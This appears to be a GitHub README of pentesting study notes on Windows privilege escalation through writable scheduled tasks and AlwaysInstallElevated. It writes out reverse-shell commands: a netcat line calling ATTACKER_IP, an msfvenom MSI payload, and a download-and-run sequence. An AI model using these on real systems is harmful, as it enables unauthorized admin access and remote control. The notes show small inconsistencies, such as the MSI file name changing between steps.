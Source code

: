 # Windows-Privilege-Escalation
Check List Windows Privilege Escalation
![2025-02-24 16_49_49-kali-linux-2024.3-vmware-amd64 - VMware Workstation.png](attachment:e6a2759c-e47d-4821-bc17-58809345149b:2025-02-24_16_49_49-kali-linux-2024.3-vmware-amd64_-_VMware_Workstation.png)

### 1- **Scheduled Tasks**

- Scheduled tasks can run programs or scripts automatically. If a task's
executable can be modified by our user, we can insert malicious code for
privilege escalation.
- Steps to exploit:
    - List scheduled tasks:
        - schtasks /query /tn vulntask /fo list /v
        - Look for the Task to Run parameter (shows the executable) and the
        User parameter (shows which user runs the task).
    - Check permissions on the executable:
        - icacls C:\\tasks\\schtask.bat
        - BUILTIN\\Users:(I)(F) is present, the file can be modified.
    - Modify the task's executable:
        - echo C:\\tools\\nc64.exe -e cmd.exe ATTACKER_IP 4444 >
        C:\\tasks\\schtask.bat
    - Start a listener on the attacker machine:
        - nc -lvp 4444
    - Manually trigger the task (if permitted):
        - schtasks /run /tn vulntask
    - Receive the reverse shell:
        - On the attacker's listener:

### 

### 2- **Always Install Elevated**

- Windows `.msi` installer files are used to install programs. Normally, they run with the same permissions as the user who starts them. But some `.msi` files can be set to run with **higher privileges**, even from a low-privilege user.
- **Why is this important?**
    - If misconfigured, an attacker can create a **malicious MSI file** that runs with **admin privileges** , leading to privilege escalation.
- Steps to check and exploit:
    - Check registry values:  Both keys must be enabled for exploitation
        - **`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`**
        - **`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`**
    - If **both** return:
        - `AlwaysInstallElevated    REG_DWORD    0x1`
    - **Generate a Malicious MSI File** (On Kali Linux)
        
        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
        ```
        
    - Transfer the MSI File to the Target
        - `python3 -m http.server 8080`
    - On **Windows**, download the file using PowerShell:
        - `Invoke-WebRequest -Uri "[http://<your-ip>:8080/exploit.msi](http://192.168.1.100:8080/exploit.msi)" -OutFile "**C:\Windows\Temp\malicious.msi**"`
    - Set Up a Netcat Listener on Kali
        - `nc -nvlp 4444`
    - Run the MSI File on Windows (with Admin Privileges)
        - **`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`**
